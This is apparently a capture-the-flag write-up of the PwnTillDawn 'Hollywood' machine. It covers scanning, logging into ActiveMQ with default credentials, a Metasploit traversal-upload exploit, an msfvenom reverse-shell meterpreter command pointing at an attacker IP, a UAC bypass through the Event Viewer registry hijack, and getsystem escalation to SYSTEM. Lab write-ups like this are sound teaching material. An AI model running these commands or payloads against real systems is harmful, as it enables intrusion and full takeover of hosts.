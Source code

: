 ```yaml
---
title: Hollywood Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 01:33:00 +0000
categories: [Blogging, PwnTillDawn]
tags: [writeups, tomcat, activemq, msfconsole]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143771170-b81a10a3-ee70-4748-9d22-a333f4934b5f.png)<br>

**> Information Gathering**<br>
The Default nmap scan showed many active ports on the target. We can see some major ports like `21 (ftp), 25 (smtp), 80 (http), 110 (pop3) 445 (smb), 8080 (tomcat) & 8161 (activemq)`. <br>

`xampp` was found running on the default port 80, directory bruteforcing this page did not yield any results.<br>
![image](https://user-images.githubusercontent.com/67085453/143771194-f7c03df2-0b7d-423d-b38b-0274a88dbb23.png)<br> 

Apache tomcat was setup on port 8080 with `host-manager` login disallowed and the default tomcat credentials did not work on `manager app`. <br>
![image](https://user-images.githubusercontent.com/67085453/143771198-a5910e2c-4eb6-4ea6-8df5-d4113b33f42e.png)<br>

Digging deeper on port 8161, we found apache activemq running.<br>
![image](https://user-images.githubusercontent.com/67085453/143771202-66596cba-e76d-4bfd-a775-823b50e39e77.png)<br>

The first thing i always do is to try the default login creds on webapps. I tried to login with the default username and password `admin:admin` on activemq just like we did on tomcat.<br>
![image](https://user-images.githubusercontent.com/67085453/143771208-19a45234-1010-4920-9086-18e4e135cb26.png)<br>

Luckily for us, the default `admin:admin` worked and we logged in succesfully.<br>
![image](https://user-images.githubusercontent.com/67085453/143771218-f4d9d7bf-0fb8-4199-90b9-0281d43289bc.png)<br>

On the admin dashboard, the version of activemq running on the taret is `5.11.1`. We performed a quick google to find any known exploit.<br>
![image](https://user-images.githubusercontent.com/67085453/143771230-8430ca4d-2bf9-45d1-bb9e-bbbe5a968b57.png)<br>

We found a approved exploit from <a href="https://www.rapid7.com/db/modules/exploit/windows/http/apache_activemq_traversal_upload/">rapid7</a>. <br>
![image](https://user-images.githubusercontent.com/67085453/143771368-bc57ac26-72a0-4f4e-b982-31ca164bcce7.png)<br>

Load this module into `msfconsole` using `use windows/http/apache_activemq_traversal_upload`, setup the required module options for this exploit. `RHOST`, `RPORT`, `USERNAME`, `PASSWORD` & `LHOST`. Without these module options setup, the exploit will fail to execute.<br>
![image](https://user-images.githubusercontent.com/67085453/143771382-28b2af4e-35e5-4a15-8943-320554dfcb98.png)<br>

All module options set?? then launch an attack using either `run` or `exploit` command in `msfconsole`. If successful, we should spawn a shell on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771399-c81cb79d-42f1-4581-92fb-5e861807d80f.png)<br>

**> Post Exploitation**<br>

Winpeas and other tools did not provide me with any good information. So i decided to create a staged payload using `msfvenom`. To create a payload, use this `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=4444 -f exe -o test.exe`<br>
![image](https://user-images.githubusercontent.com/67085453/143771410-6614f216-ceec-4ae4-9e1e-58a4c030113a.png)<br>

Then transfered this to the target, setup another msfconsole listerner then executed the `test.exe` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771419-56228f2b-f9e5-4c66-8e57-70a71dc04142.png)<br>

We should have another session in the new `msfconsole` listerner. Lets background this session using the command `bg` or `background`. Load `msfconsole` post exploitation module by typing `use post/multi/recon/local_exploot_suggester`. Once the the module is loaded, set the session to your current session using `set session (session number)` and type run.<br>
![image](https://user-images.githubusercontent.com/67085453/143771432-c57fcd1c-60ce-43ea-b241-89537af6b48a.png)<br>

After waiting for sometime for the results of the post module, we realized we could bypass `User Account Control` to become `NT AUTHORITY\SYSTEM`. To do this, we need to load the module `exploit/windows/local/bypassuac_eventvwr`, set `session` and `lhost` then execute the exploit again using either `run` or `exploit`.<br>
![image](https://user-images.githubusercontent.com/67085453/143771442-baefc788-52c1-4ed2-81e5-76ffe38ea966.png)<br>

This module will bypass` Windows UAC` by hijacking a special key in the `Registry` under the current user hive, and inserting a custom command that will get invoked when the `Windows Event Viewer` is launched. We have successfuly hijacked `C:\Windows\System32\eventvwr.exe` on the target But we are still not administrator. So we will use the `getsystem` command. This comand will use a number of different techniques in attempt to gain SYSTEM level privileges on the target<br>
![image](https://user-images.githubusercontent.com/67085453/143771472-beff3526-d40a-4072-badd-7653a1c0e897.png)<br>

The technique worked and we are `NT AUTHORITY\SYSTEM` though the `Named Pipe Impersonation` technique. We have fully compromised this target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771478-9e61baa0-5704-416a-8d9f-bb14ee0c0963.png)<br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
